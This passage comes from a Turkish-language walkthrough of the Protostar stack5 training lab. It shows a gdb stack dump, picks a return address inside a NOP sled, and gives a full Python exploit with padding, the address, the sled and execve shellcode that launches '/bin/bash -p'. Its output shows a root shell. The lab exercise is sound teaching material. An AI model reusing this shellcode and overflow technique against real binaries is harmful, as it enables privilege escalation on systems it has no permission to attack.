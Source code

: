 ```bash

Breakpoint 1, main (argc=-1869574000, argv=0x90909090) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/200x $esp
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xbffff7c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff800:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff810:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff820:	0x90909090	0x99580b6a	0x2d686652	0x52e18970
0xbffff830:	0x2f68686a	0x68736162	0x6e69622f	0x5152e389
0xbffff840:	0xcde18953	0x00000080	0xbffff864	0x080483f0
0xbffff850:	0x080483e0	0xb7ff1040	0xbffff85c	0xb7fff8f8
```

Shellcode adresi olarak nopların ortasından `0xbffff7f0` gibi bir adres alabiliriz
`\xf0\xf7\xff\xbf`

```python
# exploit5.py final
garbage = "A" * 76
shellcode_adresi = "\xf0\xf7\xff\xbf"
NOP_sled = "\x90" * 100
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print garbage + shellcode_adresi + NOP_sled + shellcode
```

```bash
python exploit5.py > exploit5
```

```bash
cat exploit5 - | /opt/protostar/bin/stack
```

```bash
$ user@protostar:/opt/protostar/bin$ cat /tmp/exploit5 - | ./stack5
whoami
root
```

![alt text](protostarPNG/stack-50.png "stack05")
